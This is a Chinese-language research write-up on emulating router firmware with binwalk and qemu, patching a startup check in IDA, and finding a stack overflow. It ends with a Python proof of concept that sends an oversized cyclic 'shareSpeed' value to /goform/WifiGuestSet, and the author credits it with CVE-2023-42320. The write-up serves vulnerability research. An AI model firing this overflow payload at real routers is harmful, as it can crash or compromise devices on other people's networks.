



## bin 文件的处理

使用 binwalk 对 bin 文件进行处理

安装 : `apt install binwalk`

命令 : `binwalk -Me ./*.bin`

解包后即为标准的 unix 文件系统

## qemu 环境搭建

```
  apt-get install qemu-system
  apt-get install qemu-user-static
```

  以 `./bin/httpd` 为目标，使用`file`查看信息，LSB 选择 mipsel

  进入到解包后的***bin/extracted/squashfs-root/**目录下

```
  cp $(which qemu-mipsel-static) ./
  sudo chroot ./ ./qemu-mipsel-static ./bin/httpd
```
  启动**目标 httpd**，由于存在检查，失败

## 修补程序，去掉 check

  Patch 前：

  

  使用 IDAPro 进行 Patch

  

  通过搜索**Welcome**关键字，找到程序中断点，

  切换到图模式，可以确认在 `bgez` 处进行判断，只需要将原来的 `>=` 修改即可，也就是将 `bgez` 改为 `bltz`

  在 `Edit -> Patch program -> Change byte`中 将`0A 00 41 04`改为`0A 00 01 04` 即可

  Patch 后：

  

## 创建 `bridge`

  ```
  sudo brctl addbr br0
  sudo brctl addif br0 eth0 <- [eth0 from your interface on ifconfig]
  sudo ifconfig br0 up
  sudo dhclient br0
  ```

  如出现`Unsupported setsockopt level=65535 optname=128`

  执行 `cp -rf ./webroot_ro/* ./var/webroot/` 即可正常运行

## 使用 Poc 攻击

```python
import requests

host = "192.168.59.136:80"
cyclic = b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaa"

def exploit_WifiGuestSet():
    url = f"http://{host}/goform/WifiGuestSet"
    data = {
        b'shareSpeed':cyclic
    }
    res = requests.post(url=url,data=data)
    print(res.content)

exploit_WifiGuestSet()
```

## MIPS 编译测试

  安装编译器

  `sudo apt-get install  gcc-mips-linux-gnu`

  使用下面代码测试

  ```
  #include <stdio.h>

  int main(void) {
      printf("hello\n");
      return 0;
  }
  ```

  编译

  `mips-linux-gnu-gcc -static hello.c -o hello`

  运行结果

  ```
  $ cp /usr/bin/qemu-mips-static .
  $ qemu-mips-static ./hello
  hello
  ```

## 照猫画虎

> 拿到了第一个 CVE 编号 `CVE-2023-42320` 